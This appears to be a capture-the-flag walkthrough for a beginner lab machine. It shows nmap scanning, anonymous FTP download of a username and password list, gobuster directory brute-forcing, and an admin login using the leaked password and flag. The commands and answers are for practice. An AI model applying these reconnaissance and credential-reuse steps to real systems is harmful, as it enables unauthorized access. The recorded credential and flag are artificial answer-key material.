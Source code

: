 <center>Crocodile</center>





[toc]







## Crocodile

> Crocodile









### 1. task

1. What Nmap scanning switch employs the use of default scripts during a scan?

```shell
nmap -help

-sc
```

2. What service version is found to be running on port 21?

```shell
nmap -sV 10.129.22.245 -A

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.31
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))


vsftpd 3.0.3
```

3. What FTP code is returned to us for the "Anonymous FTP login allowed" message?

```shell
230
```

4. After connecting to the FTP server using the ftp client, what username do we provide when prompted to log in anonymously?

```shell
Anonymous
```

5. After connecting to the FTP server anonymously, what command can we use to download the files we find on the FTP server?

```shell
get
```

6. What is one of the higher-privilege sounding usernames in 'allowed.userlist' that we download from the FTP server?

```shell
ftp 10.129.22.245

dir

get allowed.userlist

get allowed.userlist.passwd

cat allowed.userlist                                                                     
aron
pwnmeow
egotisticalsw
admin


admin
```

7. What version of Apache HTTP Server is running on the target host?

```shell
Apache httpd 2.4.41
```

8. What switch can we use with Gobuster to specify we are looking for specific filetypes?

```shell
-x
```

9. Which PHP file can we identify with directory brute force that will provide the opportunity to authenticate to the web service?

```shell
# 目录扫描
gobuster dir -u http://10.129.22.245/ -w /usr/share/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt 

/config.php           (Status: 200) [Size: 0]
/login.php            (Status: 200) [Size: 1577]

```











### 3. flag

> 获取flag

```shell
# 打开登陆页面，输入用户名密码登陆
cat allowed.userlist 
cat allowed.userlist.passwd

admin/rKXM59ESxesUFHAd

Here is your flag: c7110277ac44d78b6a9fff2232434d16
```

